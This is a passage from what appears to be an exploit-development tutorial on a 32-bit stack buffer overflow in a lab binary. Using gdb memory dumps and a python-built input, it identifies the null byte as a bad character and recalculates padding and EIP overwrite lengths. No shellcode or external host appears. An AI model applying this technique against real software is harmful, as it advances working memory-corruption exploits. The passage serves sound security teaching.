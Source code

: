 Now we can look at the **Stack**:
```console
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

Here we recognize at which address our "\x55" begins. From here, we can go further down and look for the place where our CHARS start.
```console
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												 # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

If we look closely at it, we will see that it starts with `\x01` instead of `\x00`. We have already seen the warning during the execution that the **null byte** in our input was ignored. So we can note this character, remove it from our variable CHARS and adjust the number of our `\x55`.
 
Let's see how many we need:
```console
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

Now send the CHARS without Null Byte:
```console
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
